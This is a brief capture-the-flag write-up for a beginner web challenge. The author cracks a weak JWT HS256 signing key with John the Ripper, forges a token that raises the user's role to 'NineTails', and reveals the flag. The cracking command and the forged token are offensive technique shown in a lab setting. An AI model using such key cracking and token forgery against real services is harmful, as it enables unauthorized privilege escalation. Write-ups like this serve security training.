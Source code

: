 # Beginner/Secret-of-Kurama

Madara attacked leaf village. everyone wants Naruto to turn into Nine-Tails, Naruto don't know what's the SECRET to change its role to 'NineTails'? can you as a shinobi help Naruto??? username: Naruto Password: Chakra

http://34.132.132.69:8004/

## Solution

In the website we got a page `/secret_of_Kurama` after login. We have a JWT token as well.

The task is obvious, crack the JWT HS256 key and manipulate the JWT token, and change the role to `NineTails`.

I use John-The-Ripper to crack the key:

```bash
john jwt.txt --format=HMAC-SHA256
```

Got the key `minato`.

The modified JWT is:

```plaintext
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ik5hcnV0byIsInJvbGUiOiJOaW5lVGFpbHMifQ.rDZ26ZE_F4l0Ve4E-2sKP4qKNuadhLU8nrThW7YGVPg
```

## Flag

```plaintext
flag{y0u_ar3_tru3_L34F_sh1n0b1_bf56gtr59894}
```


